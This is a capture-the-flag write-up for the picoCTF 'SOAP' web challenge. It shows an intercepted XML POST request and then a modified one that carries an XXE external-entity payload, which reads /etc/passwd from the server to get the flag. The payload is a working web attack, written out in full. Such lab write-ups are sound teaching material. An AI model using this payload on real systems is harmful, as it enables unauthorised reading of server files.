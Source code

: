 # Challange Info

Name : SOAP

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/376?category=1&page=2

# Writeup

Navigating the webapp.

There are three buttons which shows details on webapp.

Capturing one of the detail request and send it to repeater.

```
POST /data HTTP/1.1

Host: saturn.picoctf.net:62138

Content-Length: 61

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/xml

Accept: */*

Origin: http://saturn.picoctf.net:62138

Referer: http://saturn.picoctf.net:62138/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
  <data>
    <ID>
      1
  </ID>
  </data>
```

The data is sent via xml which can lead to XXE and description says we need to read /etc/passwd file so we modify the request.

```
POST /data HTTP/1.1

Host: saturn.picoctf.net:62138

Content-Length: 142

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/xml

Accept: */*

Origin: http://saturn.picoctf.net:61871

Referer: http://saturn.picoctf.net:61871/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE replace [<!ENTITY file SYSTEM"file:///etc/passwd">]>
  <data>
    <ID>
      &file;
    </ID>
  </data>
```

This will display the /etc/passwd file from the server which contains the flag.

